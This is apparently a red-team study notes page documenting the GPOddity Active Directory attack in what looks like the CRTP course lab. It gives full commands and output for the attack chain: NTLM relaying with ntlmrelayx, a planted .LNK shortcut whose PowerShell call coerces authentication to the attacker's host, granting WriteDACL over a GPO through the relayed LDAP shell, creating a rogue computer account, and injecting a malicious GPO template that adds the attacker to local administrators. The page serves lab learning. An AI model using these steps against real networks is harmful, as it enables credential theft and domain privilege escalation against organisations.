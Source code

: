 # GPOddity

[GPOddity](https://github.com/synacktiv/GPOddity) combines NTLM relaying with the modification of a GPO:

1. The target user has `WriteDACL` over a GPO
2. Relay credentials of the target user for modifying the path of the GP template (`gPCFileSysPath`)
3. Load a malicious template from an attacker-controlled location

<figure><img src="https://x7331.gitbook.io/notes/~gitbook/image?url=https%3A%2F%2F3960676229-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FmjLkek16kB60c2WFd5lf%252Fuploads%252F2nD7PLJ5AwP0DXZSdqZM%252Fgpoddity_attack.png%3Falt%3Dmedia%26token%3Db2130241-680a-4386-a68b-481204a9a5a0&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=996a799&#x26;sv=2" alt=""><figcaption><p>The GPOddity attack (image taken from the <a href="https://www.alteredsecurity.com/post/certified-red-team-professional-crtp">CRTP</a> course).</p></figcaption></figure>

{% tabs %}
{% tab title="Recon" %}
The target user has `WriteDACL` over a GPO:

<figure><img src="https://x7331.gitbook.io/notes/~gitbook/image?url=https%3A%2F%2F3960676229-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FmjLkek16kB60c2WFd5lf%252Fuploads%252F6A8E449roph9oZi34DP5%252Fgpoddity_bh.png%3Falt%3Dmedia%26token%3D162041f2-f745-4e22-8934-444ceadb18bb&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=7278fe38&#x26;sv=2" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```powershell
# Get GPO's details with PowerView
> Get-DomainGPO -identity "DevOps Policy"

displayname              : DevOps Policy
name                     : {0BF8D01C-1F62-4BDC-958C-57140B67D147}
cn                       : {0BF8D01C-1F62-4BDC-958C-57140B67D147}
objectguid               : fc0df125-5e26-4794-93c7-e60c6eecb75f
gpcfilesyspath           : \\dollarcorp.moneycorp.local\SysVol\dollarcorp.moneycorp.local\Policies\{0BF8D01C-1F62-4BDC-958C-57140B67D147}
distinguishedname        : CN={0BF8D01C-1F62-4BDC-958C-57140B67D147},CN=Policies,CN=System,DC=dollarcorp,DC=moneycorp,DC=local
objectcategory           : CN=Group-Policy-Container,CN=Schema,CN=Configuration,DC=moneycorp,DC=local
```
{% endcode %}
{% endtab %}

{% tab title="Relay" %}
Relay the LDAP service on the DC (`172.16.2.1`) to the attack's machine (`172.160.100.37`):

{% code overflow="wrap" %}
```bash
sudo impacket-ntlmrelayx -t ldaps://172.16.2.1 -wh 172.16.100.37 --http-port "80,8080" -i -no-smb-server
```
{% endcode %}

Create a shortcut pointing to the attacker's relay server:

{% code overflow="wrap" %}
```
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -Command "Invoke-WebRequest -Uri 'http://172.16.100.37' -UseDefaultCredentials"
```
{% endcode %}

Copy the `.LNK` file to the target share:

```sh
> xcopy .\student337.lnk \\dcorp-ci\AI
.\student337.lnk
1 File(s) copied
```

Back on the relay server:

{% code overflow="wrap" %}
```bash
[*] Servers started, waiting for connections
[*] HTTPD(80): Client requested path: /
[*] HTTPD(80): Client requested path: /
[*] HTTPD(80): Connection from 172.16.3.11 controlled, attacking target ldaps://172.16.2.1
[*] HTTPD(80): Client requested path: /
[*] HTTPD(80): Authenticating against ldaps://172.16.2.1 as DCORP/DEVOPSADMIN SUCCEED
[*] Started interactive Ldap shell via TCP on 127.0.0.1:11000 as DCORP/DEVOPSADMIN
```
{% endcode %}
{% endtab %}

{% tab title="WriteDACL" %}
Assign the `WriteDACL` permissions over the target GPO on the attacker (domain user):

```bash
$ nc 127.0.0.1 11000
Type help for list of commands

# whoami
u:dcorp\devopsadmin

# write_gpo_dacl student337 {0BF8D01C-1F62-4BDC-958C-57140B67D147}
Adding student337 to GPO with GUID {0BF8D01C-1F62-4BDC-958C-57140B67D147}
LDAP server claims to have taken the secdescriptor. Have fun
```

Alternatively, if we don't have compromised a domain user, we can add a computer object and assign the permissions to it:

{% code overflow="wrap" %}
```bash
# add_computer std337-gpattack Secretpass@123
Attempting to add a new computer with the name: std337-gpattack$
Inferred Domain DN: DC=dollarcorp,DC=moneycorp,DC=local
Inferred Domain Name: dollarcorp.moneycorp.local
New Computer DN: CN=std337-gpattack,CN=Computers,DC=dollarcorp,DC=moneycorp,DC=local
Adding new computer with username: std337-gpattack$ and password: 
Secretpass@123 result: OK

# write_gpo_dacl std337-gpattack$ {0BF8D01C-1F62-4BDC-958C-57140B67D147}
Adding std337-gpattack$ to GPO with GUID {0BF8D01C-1F62-4BDC-958C-57140B67D147}
LDAP server claims to have taken the secdescriptor. Have fun
```
{% endcode %}
{% endtab %}

{% tab title="GPOddity" %}
Execute the GPOddity attack:

{% code overflow="wrap" %}
```bash
# Create & inject a malicious template
sudo python3 gpoddity.py --gpo-id '0BF8D01C-1F62-4BDC-958C-57140B67D147' --domain 
'dollarcorp.moneycorp.local' --username 'student337' --password 'nUQfN3A8CcV7GxqT' --command 'net localgroup administrators student337 /add' --rogue-smbserver-ip '172.16.100.37' --rogue-smbserver-share 'std337-gp' --dc-ip '172.16.2.1' --smb-mode none
```
{% endcode %}

Create the share and move the malicious template to it:

```bash
# Create the share
mkdir /mnt/c/AD/Tools/std337-gp
# Move the template to the share
cp -r /mnt/c/AD/Tools/GPOddity/GPT_out/* /mnt/c/AD/Tools/std337-gp/
```

From a `SYSTEM` shell point configure the share's path and permissions:

```powershell
# Configure the share path
C:\Windows\system32>net share std337-gp=c:\AD\Tools\std337-gp
std337-gp was shared successfully.

# Provide full control to everyone
C:\Windows\system32>icacls "C:\AD\Tools\std337-gp" /grant Everyone:F /T
```

Check the policy's attribute with PowerView:

```powershell
> Get-DomainGPO -identity "DevOps Policy" | select gpcfilesyspath

gpcfilesyspath
--------------
\\172.16.100.37\std337-gp
```

When the policy refreshes:

```powershell
# Check admin access with PowerView
> Find-LocalAdminAccess
dcorp-adminsrv.dollarcorp.moneycorp.local
dcorp-ci.dollarcorp.moneycorp.local
dcorp-std337.dollarcorp.moneycorp.local
```
{% endtab %}
{% endtabs %}
